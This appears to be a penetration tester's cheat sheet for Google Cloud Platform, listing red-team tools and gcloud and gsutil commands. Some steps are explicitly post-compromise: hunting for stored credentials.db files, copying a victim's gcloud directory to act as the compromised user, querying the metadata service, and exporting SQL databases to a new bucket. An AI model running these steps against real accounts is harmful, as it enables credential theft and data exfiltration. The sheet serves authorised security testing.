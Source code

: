 ## Docu
https://six2dez.gitbook.io/pentest-book/enumeration/cloud/gcp
### Pentesting Tactics
https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/
### IAM and Rolse References
https://cloud.google.com/iam/docs/permissions-reference
https://cloud.google.com/iam/docs/understanding-roles

## Tools
### Firewall enum
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_firewall_enum
### Enumerate GCP
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_enum
### Vulneravility scaner
https://github.com/aquasecurity/cloudsploit/blob/master/docs/gcp.md#cloud-provider-configuration
### Hardening review
https://github.com/DenizParlak/hayat
### Bruteforce Buckets
https://github.com/RhinoSecurityLabs/GCPBucketBrute
### IAM vsualization
https://github.com/marcin-kolda/gcp-iam-collector
### Gather information
https://github.com/nccgroup/ScoutSuite
### Miscelania
https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/gcp_misc

## Usefull comands
### Authentication with gcloud and retrieve info
```
gcloud auth login
gcloud auth activate-service-account --key-file creds.json
gcloud auth list
gcloud config list
gcloud organizations list
gcloud organizations get-iam-policy <org ID>
gcloud projects get-iam-policy <project ID>
gcloud projects list
gcloud config set project <project name>
gcloud services list
gcloud source repos list
gcloud source repos clone <repo_name>
```

### Virtual Machines
```
gcloud compute instances list
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"
```
### Puts public ssh key onto metadata service for project
```
gcloud compute ssh <local host>
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H &#39;Metadata-Flavor:Google’
```
### Use Google keyring to decrypt encrypted data
```
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```

### Storage Buckets
#### List Google Storage buckets
```
gsutil ls
gsutil ls -r gs://<bucket name>
gsutil cp gs://bucketid/item ~/
```

### Webapps & SQL
```
gcloud app instances list
gcloud sql instances list
gcloud spanner instances list
gcloud bigtable instances list
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>
```
### Export SQL databases and buckets
#### First copy buckets to local directory
```
gsutil cp gs://bucket-name/folder/ .
```
#### Create a new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>
```
### Networking
```
gcloud compute networks list
gcloud compute networks subnets list
gcloud compute vpn-tunnels list
gcloud compute interconnects list
```

### Containers
```
gcloud container clusters list
```

### GCP Kubernetes config file
```
 ~/.kube/config #gets generated when you are authenticated with
gcloud container clusters get-credentials <cluster name> --region <region>
kubectl cluster-info
```

### Serverless
```
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

### Gcloud stores creds in
``` ~/.config/gcloud/credentials.db # Search home directories
sudo find /home -name "credentials.db
```
### Copy gcloud dir to your own home directory to auth as the compromised user
```
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

### Metadata Service URL
```
# metadata.google.internal = 169.254.169.254
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H
"Metadata-Flavor: Google"
```